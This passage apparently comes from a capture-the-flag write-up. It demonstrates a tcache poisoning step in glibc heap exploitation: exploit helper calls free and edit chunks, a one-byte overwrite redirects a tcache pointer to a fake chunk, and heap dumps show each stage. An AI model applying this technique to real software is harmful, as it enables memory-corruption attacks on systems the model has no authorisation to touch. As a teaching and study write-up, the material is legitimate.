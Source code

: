 
I’ll free A and then free but hold onto B by editing it to 0. Then on adding
another 0x40 bin, I’ll have both files pointing to the same spot. From there,
removing the first B will leave me where I want to be to attack:

    
    
    rm('A')                                         # A in 0x50 tcache, f1 empty
    edit('B', 0)                                    # B -> A in 0x50 tcache, f2 still B
    add('B2', 0x40)                                 # A in 0x50 tcache, f1 & f2 -> B
    rm('B')                                         # B -> A in 0x50 tcache, f1 -> B
    

The heap loops like:

    
    
    0x55555555c250: 0x0000000000000000      0x0000000000000051  <-- A meta
    0x55555555c260: 0x0000000000000000      0x000055555555c010  <-- A pointer to next (null) and key
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061  <-- fake chunk
    0x55555555c290: 0x0000000000000000      0x000000000000000a
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051  <-- B meta
    0x55555555c2b0: 0x000055555555c260      0x000055555555c010  <-- pointer to A and key
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000000
    0x55555555c2e0: 0x0000000000000000      0x0000000000000000
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11
    

When I now edit B2 with just one character, 0x90, it will overwrite that
tcache pointer:

    
    
    edit('B2', 0x40, '\x90')                        # B -> fake1 in 0x50 tcache, f1 -> B
    

Heap:

    
    
    0x55555555c250: 0x0000000000000000      0x0000000000000051
    0x55555555c260: 0x0000000000000000      0x000055555555c010
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061
    0x55555555c290: 0x0000000000000000      0x000000000000000a
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051
    0x55555555c2b0: 0x000055555555c290      0x000055555555c010  <-- now points to fake chunk
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000000
    0x55555555c2e0: 0x0000000000000000      0x0000000000000000
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11
    

`heapinfo` also shows this:

    
    
    (0x50)   tcache_entry[3](2): 0x55555555c2b0 --> 0x55555555c290 (overlap chunk with 0x55555555c2a0(freed) )
    
